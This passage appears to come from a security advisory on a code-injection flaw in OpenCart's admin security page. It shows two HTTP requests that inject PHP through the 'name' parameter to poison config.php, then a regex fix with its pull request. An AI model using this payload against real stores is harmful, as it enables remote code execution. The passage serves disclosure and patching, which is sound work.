The first one to: `route=common/security.admin&user_token=<token>&page=1&name=foo%27);phpinfo();print(%27`

```http
GET /admin/index.php?route=common/security.admin&user_token=7cc69dfa3112eb181c75da78147d8af1&page=1&name=foo%27);phpinfo();print(%27 HTTP/1.1
Host: 127.0.0.1:8888
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0

--- RESPONSE ---

HTTP/1.1 200 OK

{"next":"http:\/\/127.0.0.1:8888\/admin\/index.php?route=common\/security.admin&user_token=7cc69dfa3112eb181c75da78147d8af1&name=foo');phpinfo();print('&page=2"}
```

The second one to: `route=common/security.admin&user_token=<token>&page=99&name=foo%27);phpinfo();print(%27`

```http
GET /admin/index.php?route=common/security.admin&user_token=7cc69dfa3112eb181c75da78147d8af1&page=99&name=foo%27);phpinfo();print(%27 HTTP/1.1
Host: 127.0.0.1:8888
Cookie: OCSESSID=fbc47c7e5098550f0c12070be0

--- RESPONSE ---

HTTP/1.1 200 OK

{"redirect":"http:\/\/127.0.0.1:8888\/foo');phpinfo();print('\/index.php?route=common\/login"}

```

In this case, a new directory containing the poinsoned `config.php` file will be created:

![admin-rce]({{page.screenshots}}admin-rce.png)
{: .text-center }

**Demo**:

<iframe width="560" height="315" src="https://www.youtube.com/embed/6if6Kfsb2oM?si=kLfSwbpxzarV5N94" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

## Mitigations and hotfix

Fixing the misconfigured regexes (pull reqeust [#12949](https://github.com/opencart/opencart/pull/12949)) should prevent the exploitation in both the scenarios:
```php
}

if (isset($this->request->get['name'])) {
-    $name = preg_replace('[^a-zA-Z0-9_]', '', basename(html_entity_decode(trim($this->request->get['name']), ENT_QUOTES, 'UTF-8')));
+    $name = preg_replace('/[^a-zA-Z0-9_]/', '', basename(html_entity_decode(trim($this->request->get['name']), ENT_QUOTES, 'UTF-8')));
} else {
    $name = '';
}

if (isset($this->request->get['path'])) {
-    $path = preg_replace('[^a-zA-Z0-9_\:\/]', '', html_entity_decode(trim($this->request->get['path']), ENT_QUOTES, 'UTF-8'));
+    $path = preg_replace('/[^a-zA-Z0-9_\:\/]/', '', html_entity_decode(trim($this->request->get['path']), ENT_QUOTES, 'UTF-8'));
} else {
```

[^basename]: [`basename`](https://www.php.net/manual/en/function.basename.php), php.net
[^3763]: [CVE-2011-3763](https://nvd.nist.gov/vuln/detail/CVE-2011-3763), nvd.nist.gov
[^1891]: [CVE-2013-1891](https://security.snyk.io/vuln/SNYK-PHP-OPENCARTOPENCART-2935892), security.snyk.io
[^basename]: [`basename`](https://www.php.net/manual/en/function.basename.php), php.net